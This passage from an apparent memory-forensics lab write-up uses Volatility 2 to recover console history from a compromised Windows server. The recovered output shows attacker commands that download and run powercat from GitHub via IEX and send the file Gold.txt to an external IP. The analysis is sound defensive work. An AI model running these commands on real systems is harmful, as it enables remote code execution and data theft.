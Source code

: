 Let's talk about the first branch. We see the sql server still spawning cmd.exe > keatron.exe > cmd.exe > powershell.exe. 
This is all stuff we identified earlier.

hey so I couldn't find a plugin to get command history for volatility 3 so we will make a short sidebar for volatility2

    $ sudo volatility -f project2.raw --profile=Win2012R2x64 consoles
        ConsoleProcess: conhost.exe Pid: 4504
        Console: 0x7ff7da496260 CommandHistorySize: 50
        HistoryBufferCount: 4 HistoryBufferMax: 4
        OriginalTitle: Command Prompt
        Title: Administrator: Windows PowerShell
        ----
        CommandHistory: 0x5b7a21db70 Application: more.com Flags: 
        CommandCount: 0 LastAdded: -1 LastDisplayed: -1
        FirstCommand: 0 CommandCountMax: 50
        ProcessHandle: 0x0
        ----
        CommandHistory: 0x5b7a21dd50 Application: cvtres.exe Flags: 
        CommandCount: 0 LastAdded: -1 LastDisplayed: -1
        FirstCommand: 0 CommandCountMax: 50 
        ProcessHandle: 0x0
        ----
        CommandHistory: 0x5b7a21d180 Application: powershell.exe Flags: Allocated, Reset
        CommandCount: 10 LastAdded: 9 LastDisplayed: 7
        FirstCommand: 0 CommandCountMax: 50
        ProcessHandle: 0x5b7a1e6430
        Cmd #0 at 0x5b7a1e6910: Test-NetConnection -port 824 18.216.211.10
        Cmd #1 at 0x5b7a21d6b0: dir Gold.txt
        Cmd #2 at 0x5b7a21d920: more .\Gold.txt
        Cmd #3 at 0x5b7a222100: IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
        Cmd #4 at 0x5b7a21ae90: powercat
        Cmd #5 at 0x5b7a21d5c0: more .\Gold.txt
        Cmd #6 at 0x5b7a1e69d0: powercat -c 18.216.211.10 -i .\Gold.txt
        Cmd #7 at 0x5b7a222210: powercat -c 18.216.211.10 -p 824 -i .\Gold.txt
        Cmd #8 at 0x5b7a21d5f0: more .\Gold.txt
        Cmd #9 at 0x5b7a222280: powercat -c 18.216.211.10 -p 824 -i .\Gold.txt
        ----=
        CommandHistory: 0x5b7a21cfa0 Application: cmd.exe Flags: Allocated, Reset
        CommandCount: 6 LastAdded: 5 LastDisplayed: 5
        FirstCommand: 0 CommandCountMax: 50
        ProcessHandle: 0x5b7a1e6670
        Cmd #0 at 0x5b7a21c490: dir
        Cmd #1 at 0x5b7a21af70: cd ..
        Cmd #2 at 0x5b7a21c3d0: dir
        Cmd #3 at 0x5b7a21af90: cd ..
        Cmd #4 at 0x5b7a21c4e0: dir
        Cmd #5 at 0x5b7a21ad70: powershell
        ----
        Screen 0x5b7a1f8330 X:5 Y:0
        Dump:
